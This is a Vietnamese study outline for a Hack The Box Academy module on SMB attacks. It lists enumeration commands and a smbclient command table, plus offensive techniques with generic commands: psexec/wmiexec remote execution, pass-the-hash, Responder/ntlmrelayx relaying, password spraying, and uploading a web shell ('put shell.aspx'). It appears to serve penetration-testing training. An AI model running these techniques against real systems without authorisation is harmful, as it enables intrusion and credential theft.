

Bản thân tài liệu này không đủ với kiến thức HTB muốn dạy, cần xem thêm ở https://academy.hackthebox.com/module/116/section/1167 
Nhiều case không dùng đến nên có thể không nhớ. 

Lỗ hổng cuối cùng của SMB : https://academy.hackthebox.com/module/116/section/1168


# 📘 TẤN CÔNG SMB – Mindmap Dạng Dàn Ý (Outline Mindmap)
**Phiên bản .md hoàn chỉnh – đầy đủ, đẹp, kèm mục lục & Mermaid Mindmaps**

---

# 📑 **MỤC LỤC**
1. [Giới thiệu](#giới-thiệu)
2. [Mindmap Mermaid – Outline Style](#mindmap-mermaid--outline-style)
3. [Dàn ý chi tiết (Outline)](#dàn-ý-chi-tiết-outline)
4. [Kiến thức theo từng nhóm](#kiến-thức-theo-từng-nhóm)
5. [Phụ lục: Lệnh quan trọng SMB](#phụ-lục-lệnh-quan-trọng-smb)

---

# ## Giới thiệu
Tài liệu này trình bày **toàn bộ kiến thức SMB** dưới dạng:

- Mindmap Mermaid theo phong cách **dàn ý**
- Dễ đọc – dễ nhớ – dễ thực hành
- Có đầy đủ lệnh SMB quan trọng
- Có mục lục tự động

---

# ## Mindmap Mermaid – Outline Style



---

# ## Dàn ý chi tiết (Outline)

### **I. Khái niệm SMB**
- Dùng để chia sẻ File / Printer  
- Hỗ trợ truy cập tài nguyên từ xa  
- Ports:
  - 139 (NetBIOS)
  - 445 (SMB Direct)
- Triển khai:
  - SMBv1 – lỗi thời, nhiều lỗ hổng
  - SMBv2/v3 – bảo mật hơn
  - Samba trên Linux  
- Giao thức liên quan:
  - MSRPC  
  - Named Pipes → cực quan trọng cho RCE

---

### **II. Enumeration**
#### 1. Nmap
```
nmap -sV -p 139,445 <IP>
```

#### 2. SMBMap
```
smbmap -H <IP>
smbmap -u user -p pass -H <IP>
```

#### 3. CrackMapExec (CME)
```
cme smb <IP> --shares
cme smb <IP> -u user -p pass
```

#### 4. Null Session
```
rpcclient -U "" <IP>
```

#### 5. Truy cập Shares
```
smbclient -N -L //<IP>/
smbclient //<IP>/Share
```

#### 6. Tự động hóa
```
enum4linux -a <IP>
enum4linux-ng <IP>
```

---

### **III. Tấn công Misconfig**
#### 1. Password Attacks
- **Brute force:** Hydra, Medusa  
- **Spraying:** 1 password thử cho nhiều user  

#### 2. RCE trên SMB
```
psexec.py domain/user:pass@<IP>
smbexec.py
wmiexec.py
```

#### 3. Pass-the-Hash
```
psexec.py user@<IP> -hashes <NTLM>
cme smb <IP> -u user -H <NTLM>
```

#### 4. Net-NTLM Relay
```
responder -I eth0
ntlmrelayx.py -tf targets.txt
```

#### 5. RPC Abuse
```
rpcclient -U "" <IP>
```
- Liệt kê user  
- Tạo user  
- Enumerate domain info  

---

# ## Phụ lục: Lệnh quan trọng SMB

### ❗ Nmap
```
nmap -sV -p 139,445 <IP>
```

### ❗ SMBMap
```
smbmap -H <IP>
```

### ❗ SMBClient
```
smbclient -N -L //<IP>/
```

### ❗ CME
```
cme smb <IP> --shares
```

### ❗ Impacket RCE
```
psexec.py user:pass@<IP>
```

### ❗ Relay Attack
```
responder -I eth0
ntlmrelayx.py -tf targets.txt
```


# 📘 Tổng hợp lệnh **smbclient** – Bảng đầy đủ (Lệnh + Định nghĩa + Ví dụ)

---

# 📑 MỤC LỤC
1. Lệnh điều hướng & quản lý thư mục
2. Lệnh thao tác file
3. Lệnh nâng cao / backup
4. Lệnh phiên làm việc / kết nối
5. Lệnh cấu hình truyền file
6. Top 10 lệnh SMBclient dùng nhiều nhất

---

# ## 1. Lệnh điều hướng & quản lý thư mục

| Lệnh | Định nghĩa | Ví dụ |
|------|------------|-------|
| `ls` | Liệt kê file và thư mục trên SMB share | `ls` |
| `cd <dir>` | Chuyển thư mục trên SMB server | `cd Documents` |
| `pwd` | Hiển thị thư mục hiện tại trên SMB | `pwd` |
| `lcd <path>` | Chuyển thư mục **local** | `lcd /tmp` |
| `lpwd` | Hiển thị thư mục local hiện tại | `lpwd` |
| `mkdir <dir>` | Tạo thư mục trên SMB share | `mkdir uploads` |
| `rmdir <dir>` | Xóa thư mục SMB | `rmdir old_backup` |
| `recurse ON/OFF` | Bật/tắt tải recursive | `recurse ON` |

---

# ## 2. Lệnh thao tác file

| Lệnh | Định nghĩa | Ví dụ |
|------|------------|-------|
| `get <file>` | Tải file về local | `get creds.txt` |
| `mget *` | Tải nhiều file | `mget *.txt` |
| `put <file>` | Upload file | `put shell.aspx` |
| `mput *` | Upload nhiều file | `mput *.log` |
| `rm <file>` | Xóa file | `rm old.txt` |
| `rename <old> <new>` | Đổi tên file | `rename config.old config.php` |
| `more <file>` | Xem nội dung file | `more notes.txt` |
| `allinfo <file>` | Metadata file | `allinfo report.pdf` |
| `stat <file>` | Thông tin file | `stat secrets.txt` |
| `symlink <a> <b>` | Tạo symbolic link | `symlink log.txt link.txt` |
| `readlink <file>` | Xem symbolic link | `readlink link.txt` |

---

# ## 3. Lệnh nâng cao / backup

| Lệnh | Định nghĩa | Ví dụ |
|------|------------|-------|
| `tar <opts>` | Tải share dạng TAR | `tar c backup.tar` |
| `tarmode <mode>` | Chế độ tar | `tarmode full` |
| `reput <path>` | Upload lại file | `reput test.txt` |

---

# ## 4. Lệnh phiên làm việc / kết nối

| Lệnh | Định nghĩa | Ví dụ |
|------|------------|-------|
| `help` | Danh sách lệnh | `help rm` |
| `history` | Lịch sử lệnh | `history` |
| `cancel` | Hủy thao tác | `cancel` |
| `showconnect` | Thông tin kết nối | `showconnect` |
| `logon <user%pass>` | Đăng nhập lại | `logon admin%123` |
| `quit` / `exit` | Thoát | `exit` |

---

# ## 5. Lệnh cấu hình truyền file

| Lệnh | Định nghĩa | Ví dụ |
|------|------------|-------|
| `setmode binary/text` | Chọn mode truyền file | `setmode binary` |
| `translate <rule>` | Quy tắc chuyển đổi ký tự | `translate ascii` |
| `mask <pattern>` | Lọc file | `mask *.log` |

---

# ## Top 10 lệnh SMBclient dùng nhiều nhất

| Mục đích | Lệnh |
|---------|------|
| Liệt kê share | `smbclient -N -L //<IP>/` |
| Truy cập share | `smbclient //<IP>/SHARE -N` |
| Liệt kê file | `ls` |
| Xem file nhạy cảm | `more <file>` |
| Tải file | `get <file>` |
| Tải hàng loạt | `recurse ON` → `mget *` |
| Upload shell | `put shell.aspx` |
| Xóa file | `rm <file>` |
| Xóa thư mục | `rmdir <dir>` |
| Xem quyền file | `allinfo <file>` |

---

# 🎉 Hoàn tất file smbclient!


